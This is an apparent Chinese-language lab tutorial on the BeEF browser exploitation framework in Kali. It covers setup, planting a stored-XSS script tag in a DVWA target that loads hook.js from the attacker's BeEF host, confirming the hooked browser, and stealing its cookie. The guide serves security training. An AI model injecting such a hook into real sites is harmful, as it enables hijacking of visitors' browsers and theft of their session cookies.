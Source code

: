 ### BeEF 基础

- 启动 Apache 和 BeEF

  自带 BeEF 的 kali 版本：kali 2019.2

  ```bash
  service apache2 start 
  
  # 点击左侧🐂的图标
  ss -tnlp
  
  # 要修改密码路径才能使用
  # 修改BeEF的默认密码为1234
  root@kali:~# vi /etc/beef-xss/config.yaml
  ```

- 登录 BeEF：username：beef；password：beef(填写修改过的)

  <img src="beef-start.png" alt="image-20200812181307351" style="zoom:80%;" />

- 渗透机将脚本放在 DVWA 靶机中

  ```html
  <script src="http://192.168.50.132:3000/hook.js"></script>
  
  # IP地址即BeEF所在机器
  # 需修改字符数的限制
  ```

  <img src="beef-xss.png" alt="image-20200812181821108" style="zoom:80%;" />

- BeEF 页面查看肉鸡是否上线

  <img src="beef-machine.png" alt="image-20200812182141380" style="zoom:80%;" />

### 信息收集

- Current Browser -> Details

  <img src="beef-details.png" alt="image-20200812182348815" style="zoom:80%;" />

- Commands -> Browser -> Hooked Domain -> Get Cookie ->  Execute

  > 命令颜色(Color)：
  >
  > 绿色 对目标主机生效并且不可见(不会被发现)
  >
  > 橙色 对目标主机生效但可能可见(可能被发现)
  >
  > 灰色 对目标主机未必生效(可验证下)
  >
  > 红色 对目标主机不生效

- 持久化控制
- 社会工程
